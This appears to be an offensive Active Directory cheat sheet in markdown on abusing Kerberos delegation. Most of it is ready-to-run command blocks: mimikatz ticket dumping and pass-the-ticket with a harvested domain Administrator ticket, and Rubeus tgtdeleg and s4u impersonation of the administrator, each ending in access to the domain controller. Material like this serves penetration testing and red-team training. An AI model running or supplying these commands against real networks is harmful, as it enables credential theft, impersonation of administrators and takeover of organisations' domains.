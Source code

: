 # Delegations
- Unconstrained delegation: Any service can be abused if one of their delegation entries is sensitive.
- Constrained delegation: Constrained entities can be abused if one of their delegation entries is sensitive.
- Resource-based constrained delegation (RBCD): Resource-based constrained entities can be abused if the entity itself is sensitive.

### Uncontrained delegation
```
# Check for unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description

# Check if there is a tgt
mimikatz.exe "sekurlsa::tickets" "exit"

# Send a req to cache the tgt
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing

# Check again if the tgt is cached
mimikatz.exe "privilege::debug" "mimikatz::tickets /export" "exit"

# Import the ticket
mimikatz.exe "kerberos::ptt C:\path\3c785-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi" "exit"

# Enter a session
Enter-PSSession dc01
```

### Constrained delegation
- Assumption: compromised an account with constrained delegation configured
```
# Check for users with constrained delegation
# Attribute msds-allowedtodelegateto identifies the SPNs of services the user is trusted to delegate to (impersonate other domain users) and authenticate to.
Get-NetUser -TrustedToAuth

# request delegation ticket
.\Rubeus.exe tgtdeleg

# ticket is the base64 ticket we get with `rubeus's tgtdeleg`
Rubeus.exe s4u /ticket:<base64> /impersonateuser:administrator /domain:<domain> /msdsspn:<spn>/<dc> /dc:<dc> /ptt

# check the ticket
klist

# try to access the system and confirm we have been delegated
dir \\<dc>\c$
```
